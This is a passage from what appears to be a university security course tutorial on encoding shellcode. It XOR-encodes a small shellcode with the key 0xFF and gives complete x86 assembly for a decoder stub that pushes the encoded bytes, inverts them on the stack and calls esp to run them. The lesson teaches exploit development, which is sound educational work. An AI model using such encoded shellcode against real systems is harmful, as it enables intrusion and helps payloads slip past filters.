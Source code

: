 I don't see any 0xFF in the shell code, so we will use that as the key,
essentially inverting the bytes. The `le-fourbytes.py` script will do
this too:

``` {.example}
user@si485H-base:demo$ printf $(./hexify.sh smallest_shell) | ./le-fourbytes.py - 0xFF | tac
0x6f6f6f7f
0x32f44f1c
0x76969dd0
0xd097978c
0xd09197af
0x1e0836ce
```

That looks good. Now, all we need to do is write a decoder in assembly
that will step through and invert all the bytes on the stack before
calling `esp`.

``` {.asm}
SECTION .text
    global _start

_start:
    ;; push encoded shell code
    push 0x6f6f6f7f
    push 0x32f44f1c
    push 0x76969dd0
    push 0xd097978c
    push 0xd09197af
    push 0x1e0836ce     ;24=6*4 bytes long


    ;; DECODER

    xor eax,eax,        ;zero out eax
    xor ecx,ecx     ;zerp out ecx
    mov cl,0x18         ;set ecx to 24, length of shell code
decode:
    mov al,[esp+ecx-1]  ;load byte at front int al
    xor al,0xff     ;decode byte
    mov [esp+ecx-1],al  ;write byte back
    loop decode     ;decrement ecx and jmp to decode until ecx is zero

        call esp                ;call esp to execute shell code
```

There are few new assembly instructions, but most should be familiar.
The new instruction is `loop`, which will do an condition jump based on
the value of `ecx` register and also decrement `ecx`. Once `ecx` is
zero, it will no longer jump.

In total, this shell code is one part pushing on the encoded shell code
and one part decoding that shell code. Once the shell code is decoded,
we can call `esp` and execute the shell code.
